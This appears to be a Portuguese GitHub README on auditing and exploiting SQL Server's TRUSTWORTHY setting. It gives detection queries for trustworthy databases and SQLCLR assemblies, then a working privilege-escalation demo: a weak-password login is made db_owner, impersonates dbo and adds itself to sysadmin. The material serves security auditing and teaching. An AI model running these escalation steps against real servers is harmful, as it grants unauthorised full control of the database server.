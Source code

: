# Script para Verificação e Exploração da Propriedade Trustworthy no SQL Server

Este script tem como objetivo analisar bancos de dados com a propriedade **Trustworthy** habilitada, identificar potenciais riscos relacionados a assemblies criados nesses bancos e demonstrar um exemplo de exploração para ilustrar os riscos associados. Abaixo, as etapas detalhadas:

## 1. Identificação de Bancos com Trustworthy Ativo
Realiza uma consulta na visão `sys.databases` para listar os bancos de dados com a propriedade **Trustworthy** habilitada, fornecendo informações como `database_id`, nome, proprietário, estado e status da propriedade.

```SQL
--Verificando bancos com a propriedade trustworthy
USE [master]
GO
SELECT database_id, [name], owner_sid, state_desc, is_trustworthy_on
FROM sys.databases
WHERE is_trustworthy_on = 1
```

## 2. Análise Avançada com Assemblies (SQLCLR)
Cria uma tabela temporária para armazenar detalhes sobre bancos confiáveis, incluindo assemblies SQLCLR criados pelo usuário, permissões associadas e membros da role `db_owner`. Utiliza a `sp_MSforeachdb` para verificar cada banco no servidor.
```SQL
--Verificando bancos com a propriedade trustworthy e assemblies (SQLCLR) criados 
IF (OBJECT_ID('tempdb..#Bancos_Trustworthy') IS NOT NULL) DROP TABLE #Bancos_Trustworthy
CREATE TABLE #Bancos_Trustworthy
(
    [database_id] INT,
    [name] NVARCHAR(128),
    [owner_sid] VARBINARY(85),
    [db_owner_member] NVARCHAR(128),
    [state_desc] NVARCHAR(60),
    [is_trustworthy_on] BIT,
    [assembly_name] NVARCHAR(128),
    [permission_set_desc] NVARCHAR(60),
    [create_date] DATETIME
)

INSERT INTO #Bancos_Trustworthy
EXEC sys.sp_MSforeachdb '
SELECT 
    A.database_id, 
    A.[name], 
    A.owner_sid,
    C.member_name,
    A.state_desc, 
    A.is_trustworthy_on,
    B.[name] AS assembly_name,
    B.permission_set_desc,
    B.create_date
FROM 
    [?].sys.databases A
    LEFT JOIN [?].sys.assemblies B ON B.is_user_defined = 1
    OUTER APPLY (
        SELECT B.[name] AS member_name
        FROM [?].sys.database_role_members A
        JOIN [?].sys.database_principals B ON A.member_principal_id = B.principal_id
        JOIN [?].sys.database_principals C ON A.role_principal_id = C.principal_id
        WHERE C.[name] = ''db_owner''
        AND C.is_fixed_role = 1
        AND B.principal_id > 4
    ) C
WHERE
    A.is_trustworthy_on = 1
    AND A.[name] = ''?'''
    

SELECT * FROM #Bancos_Trustworthy
```

## 3. Simulação de Ataque com Trustworthy
Habilita a propriedade **Trustworthy** em um banco específico para demonstrar os riscos. Adicionalmente:
- Cria um login e usuário associados.
- Concede ao usuário permissões de `db_owner` no banco de teste.

```SQL
--Habilitando a propriedade trustworthy para simular um ataque
ALTER DATABASE [dirceuresende] SET TRUSTWORTHY ON
GO

--Criando um novo login para simular um ataque

CREATE LOGIN [teste_trustworthy] WITH PASSWORD = 'dirceu', CHECK_EXPIRATION=OFF, CHECK_POLICY=OFF, DEFAULT_DATABASE=[master]
GO
```
## 4. Escalada de Privilégios
- Utiliza o login criado para simular uma conexão.
- Demonstra a execução de comandos para verificar privilégios do usuário (`sysadmin` e `securityadmin`).
- Realiza a escalada de privilégios adicionando o usuário ao grupo `sysadmin`.

```SQL
USE [DB]
GO

CREATE USER [teste_trustworthy] FOR LOGIN [teste_trustworthy]
GO

ALTER ROLE [db_owner] ADD MEMBER [teste_trustworthy]
GO
```

## 5. Validação da Exploração
Apresenta consultas para verificar a identidade do usuário conectado e os privilégios adquiridos, reforçando os riscos que a configuração inadequada da propriedade **Trustworthy** pode trazer.

--Conecta com usuário teste_trustworthy
```SQL
USE [DB]
GO

EXECUTE AS USER = 'dbo'
GO

SELECT
    USER_NAME() AS [USER_NAME],
    USER AS [USER],
    SESSION_USER AS [SESSION_USER],
    SUSER_SNAME() AS [SUSER_SNAME],
    SUSER_NAME() AS [SUSER_NAME],
	ORIGINAL_LOGIN() AS [ORIGINAL_LOGIN],
    IS_SRVROLEMEMBER('sysadmin') AS [IS_SYSADMIN],
	IS_SRVROLEMEMBER('securityadmin') AS [IS_SECURITYADMIN];
```

```SQL
ALTER SERVER ROLE [sysadmin] ADD MEMBER [teste_trustworthy]
GO
```

```SQL
SELECT
    USER_NAME() AS [USER_NAME],
    USER AS [USER],
    SESSION_USER AS [SESSION_USER],
    SUSER_SNAME() AS [SUSER_SNAME],
    SUSER_NAME() AS [SUSER_NAME],
	ORIGINAL_LOGIN() AS [ORIGINAL_LOGIN],
    IS_SRVROLEMEMBER('sysadmin') AS [IS_SYSADMIN],
	IS_SRVROLEMEMBER('securityadmin') AS [IS_SECURITYADMIN]
```